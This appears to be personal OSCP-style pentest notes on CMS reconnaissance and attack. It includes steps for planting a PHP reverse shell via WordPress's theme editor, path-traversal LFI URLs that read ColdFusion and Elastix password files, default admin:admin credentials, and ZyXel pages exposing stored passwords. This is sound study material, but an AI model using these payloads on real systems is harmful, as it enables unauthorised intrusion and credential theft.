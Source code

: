 ```yaml
---
title: "CMS"
classes: single
ribbon: LightBlue
categories:
  - notes
tags:
  - beginner
  - pentest
  - recon
  - oscp
  - https
  - http
  - web
  - cms
toc: true
hide_title: true
excerpt: ""
---
```


- Enumerate version and few other details
- Google their vulnerability

## Wordpress

`admin page`
```
/wp-admin
/wp-login
```

`Configuration files`
```
setup-config.php
wp-config.php
```

`Enumerate users`
```
/?author=1, /?author=2,
```

## Uploading shell in WP_THEME

1. Login into WP_dashboard and explore the appearance tab.
![[Pasted image 20250507164435.png]]
2. Now go in **Themes** section under **Appearance** and select **Editor** and there select **twenty fifteen templet** and get into **404.php**
3. You see a text area for editing templet, inject your malicious php code here to obtain reverse connection of the webserver.
![[Pasted image 20250507164508.png]]
4. Update the file and go to following url - /wordpress/wp-content/themes/twentyfifteen/404.php
5.  you will have your session upon execution of 404.php file. :)

## Drupal

`Droopescan`
```
droopescan scan drupal -u http://example.org/ -t 32
```

`Find version`
```
/CHANGELOG.txt
```

## Adobe Cold Fusion

`Determine version`
```
/CFIDE/adminapi/base.cfc?wsdl
```

`Version 8 Vulnerability`
- fckeditor
- LFI
 - `http://server/CFIDE/administrator/enter.cfm?locale=../../../../../../../../../../ColdFusion8/lib/password.properties%00en`

## Elastix

- Google the vulnerabitlities
- default login are `admin:admin` at `/vtigercrm/`
- able to upload shell in profile-photo

`2.2.0 - 'graph.php' Local File Inclusion`

`http://server/vtigercrm/graph.php?current_language=../../../../../../../..//etc/amportal.conf%00&module=Accounts&action`

- Note: Most probably this will be same password for root user too , so you can directly ssh through it

## Joomla

- Admin page - `/administrator`
- Configuration files
```
configuration.php
diagnostics.php
joomla.inc.php
config.inc.php
```

## Mambo

`Config files`
```
configuration.php
config.inc.php  
```

## ZyXel

`Configuration files`
```
/WAN.html (contains PPPoE ISP password) 
/WLAN_General.html and /WLAN.html (contains WEP key) 
/rpDyDNS.html (contains DDNS credentials) 
/Firewall_DefPolicy.html (Firewall) 
/CF_Keyword.html (Content Filter) 
/RemMagWWW.html (Remote MGMT) 
/rpSysAdmin.html (System) 
/LAN_IP.html (LAN) 
/NAT_General.html (NAT) 
/ViewLog.html (Logs) 
/rpFWUpload.html (Tools) 
/DiagGeneral.html (Diagnostic) 
/RemMagSNMP.html (SNMP Passwords) 
/LAN_ClientList.html (Current DHCP Leases) 

# Config Backups
/RestoreCfg.html
/BackupCfg.html 
```